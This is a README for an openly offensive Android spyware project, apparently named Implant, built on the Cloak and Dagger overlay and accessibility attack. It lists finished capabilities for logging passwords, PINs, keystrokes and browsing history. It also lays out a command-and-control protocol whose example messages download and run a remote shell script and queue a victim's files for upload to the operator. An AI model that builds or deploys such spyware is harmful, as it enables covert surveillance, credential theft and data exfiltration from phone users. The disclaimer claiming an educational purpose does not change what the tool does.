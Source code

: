 Cloak and Dagger Implementation
===============================
Implant is an (unfinished) implementation of the Android Clock and Dagger vulnerability in Kotlin.
To learn more about Cloak and Dagger see, http://cloak-and-dagger.org.

If the overlays do not display correctly on your phone, adjust the overlay dimensions in the
relevant Stage subclasses.
Currently only the AccessibilityStage of the attack automatically determines the position of the
UI elements being clickjacked.

You can contact me at cooper@cooperthecoder.com.
Pull requests, questions, suggestions and criticism are welcomed.


Requirements
============
+ Android Studio with Kotlin support (3.0+ or with Kotlin plugin)

Installing Implant
==================
To install Implant, import this code into a version of Android Studio with Kotlin support.
Since Android only grants the SYSTEM_ALERT_WINDOW permission to apps from the Play Store, you'll
have to manually enable the permission and press the back button to begin the attack, or publish
it to the Play Store.
Implant uses coloured translucent overlays to show exactly what is going on in the background.
Simply click the holes in the overlay to progress the attack.

Supported Devices
-----------------
+ Nexus 5X Nougat
+ Nexus 5X Marshmallow
+ Nexus 4 Lollipop

Accessibility Service Capabilities
==================================
Done
----
+ Log non-password keystrokes
+ Log browser history
+ Log selected text
+ Log applications used
+ Log Security Pin
+ Log password keystrokes

To Do
-----
+ Unlock login screen
+ Install additional payload from an APK

Overlay Capabilities
====================
Done
----
+ Determine the position of our AccessibilityService in the Settings Menu dynamically
+ Clickjacking -> a11y working on some screen sizes

To Do
-----
+ Determine the location of all clickjacking targets dynamically

Command and Control
===================
Implant uses push notifications in order to receive commands from the C&C.
This will enable the operator to interact with devices under her control in a chat-like
manner.
To avoid finishing the victim's mobile data allowance, no large payloads are transmitted
on mobile connections.
Instead, payloads are sent via push as URLs and added to a queue locally to be
downloaded when the victim connects to an unmetered Wi-Fi network.
Large uploads are handled similarly.
When an upload command is sent via push, the data will be encrypted using the server's
public key and queued for upload when the victim connects to Wi-Fi.

Supported Operations
--------------------
+ Queue files for upload when device is idle and connected to Wi-Fi
+ Execute shell commands from the C&C

Push Service
------------
The CommandService is started whenever the device is idle and connected to an
unmetered network.
It opens a Websocket connection to the C&C and listens for commands.
On startup, the client signals it is ready to receive commands by sending its unique
Android device ID.
When the user disconnects from the unmetered network, this service should stop
immediately and close the socket.
All messages between client and server represent remote function calls.

#####Message Format
Key | Type | Description
--------------------------
command | String | The function to be called on the remote end.
arguments | Map(String -> Object) | Arguments to be passed to the function.
nonce | String | A unique ID to allow for tracking of command execution. The nonce does not have to be random but must be unique

#####Ready
To signal that it is ready to execute commands, the device sends a message with its unique
Android device ID.

```
{
    "command": "ready",
    "nonce": "1234-5467-4353-6467",
    "arguments": {
        "deviceId": "2342DFS4355"
    }
}
```

#####Execute
The `execute` command allows the server to download and run a shell script payload.
```
{
    "command": "execute",
    "nonce": "1234-5467-4353-6468"
    "arguments": {
        "url": "https://commandandcontrol.com/payload.sh"
    }
}
```


#####Upload
The `upload` command allows the server to queue a file on the device for uploading when the device
is idle and connected to an unmetered network.
```
{
    "command": "upload",
    "nonce": "1234-5467-4353-1359"
    "arguments": {
        "filename": "/sdcard/Documents/CompanySecrets.docx"
    }
}
```

#####Reply
Sometimes, the output of a command is useful.
The `reply` command should be used to send a reply, and is supported by both client and server.
Since there is no guarantee that commands will execute in order, the nonce should be used to
track which command the response is for.
```
{
    "command": "reply"
    "nonce": "1234-5467-4312-0987"
    "arguments": {
        "command": "1234-5467-4353-1359",
        "output": "/sdcard/Documents/CompanySecrets.docx queued for upload."
    }
}
```

Disclaimer
==========
I am not responsible for anything illegal, immoral or stupid you do with this code.
Please use it for educational purposes only.